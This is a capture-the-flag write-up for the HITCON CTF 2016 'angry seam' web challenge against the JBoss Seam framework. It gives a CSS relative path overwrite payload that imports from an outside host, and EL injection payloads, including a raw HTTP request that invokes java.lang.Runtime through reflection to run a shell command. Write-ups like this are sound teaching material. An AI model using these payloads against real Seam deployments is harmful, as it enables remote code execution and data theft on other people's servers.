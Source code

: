 Difficulty: **★★★★**  
Solved: **4 / 1024**  
Tag: **GrayBox**, **Java**, **Seam Framework**, **CSS RPO**, **EL Injection**, **Java Deserialization**  

#### Idea

* CSS Relative Path Overwrite  
* Built-in redirection parameter `actionOutcome`  
* [RPO Gadgets](http://blog.innerht.ml/rpo-gadgets/)  
* [CVE-2010-1871: JBoss Seam Framework remote code execution](http://blog.o0o.nu/2010/07/cve-2010-1871-jboss-seam-framework.html)  


#### Source Code

* [here](hitcon-ctf-2016/angry%20seam)

#### Solution

<br>

**P.s.** I made this challenge because once when I try to review the code of Seam Framework, I found some 0-days and I think it must have more. So I throw out the brick to attract a jade. And the result is more than I expected :P  

<br>

**Intended solution**  

* Register an account  
   ```
   username: `AAAAAA`    
   password: `AAAAAA`  
   realname: `{/*';*/}%0a@import'http://orange.tw/?`  
   ```

* Report URL  
    ```
    http://1.2.3.4:8080/angryseam/profile.seam?actionOutcom>e=/profile.seam?username%3dAAAAAA
    ```

<br>

**Unintended solution**  

* Register an account  
* Update description to  
* Login and access   

```
/?x=#{expressions.instance().createValueExpression(request.getHeader('cmd')).getValue()}
```

```
GET /angryseam/template.seam?actionMethod=template.xhtml:util.escape(sessionScope['user'].getDescription()) HTTP/1.1
host: 1.2.3.4
cmd: #{expressions.getClass().forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(expressions.getClass().forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),request.getHeader('ccc'))}
ccc: ls -alh
...
```
